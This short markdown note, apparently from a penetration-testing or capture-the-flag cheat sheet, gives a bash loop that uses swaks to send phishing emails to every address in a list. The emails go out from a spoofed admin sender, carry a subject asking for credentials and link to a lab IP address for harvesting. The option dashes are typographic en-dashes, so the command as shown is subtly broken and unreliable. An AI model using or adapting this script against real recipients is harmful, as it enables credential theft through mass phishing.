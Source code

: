 # Sending Phishing Emails - Command Line


## Bash and SWAKS

* email.txt contains a list of email addresses to phish

```
phishing-script.sh 
#!/bin/sh

while read email; do swaks –to $email –from admin@some-domain –header "Subject: Please send me your creds!" –body "http://10.10.14.49/" –server 10.10.10.10; done < email.txt
```